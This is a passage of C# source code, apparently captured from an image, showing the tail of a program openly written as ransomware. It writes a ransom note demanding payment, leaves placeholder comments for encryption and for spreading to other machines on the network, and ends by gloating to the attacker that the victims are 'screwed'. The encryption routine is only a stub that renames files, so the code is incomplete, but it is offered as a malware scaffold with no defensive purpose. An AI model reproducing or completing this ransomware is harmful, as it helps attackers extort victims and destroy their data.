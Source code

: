 ```
                }

                catch (Exception ex)

                {

                    Console.WriteLine("Error encrypting file: " + ex.Message);

                }

            }



            // Display the ransom note to the victim

            string ransomNote = "Your files have been encrypted! Pay a hefty sum to regain access.";

            File.WriteAllText(targetDirectory + "RANSOM_NOTE.txt", ransomNote);



            // Spread to other systems on the network

            // Implement your own code here to spread the ransomware to other vulnerable machines



            Console.WriteLine("Ransomware attack successful! Your victims are screwed. Enjoy!");

        }



        static void EncryptFile(string filePath)

        {

            // Implement your encryption algorithm here (e.g., AES, RSA, etc.)

            // Encrypt the file and change its extension to indicate encryption



            string encryptedFilePath = filePath + ".encrypted";

            File.Move(filePath, encryptedFilePath);

        }

    }

}

```
